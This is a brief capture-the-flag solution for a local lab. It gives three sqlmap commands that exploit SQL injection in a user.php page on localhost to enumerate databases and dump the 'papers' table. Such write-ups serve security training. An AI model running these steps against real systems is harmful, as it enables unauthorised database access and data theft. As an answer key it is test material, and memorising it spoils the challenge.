 # Solution

## Flag 1: SQL injection

run `sqlmap` on `http://localhost:8000/user.php?name=Alice`

- `sqlmap -u 'http://localhost:8000/user.php?name=Alice' --dbs --level 2`
- `sqlmap -u 'http://localhost:8000/user.php?name=Alice' -D MYSQL_DATABASE --tables`
- `sqlmap -u 'http://localhost:8000/user.php?name=Alice' -D MYSQL_DATABASE -T papers --dump`

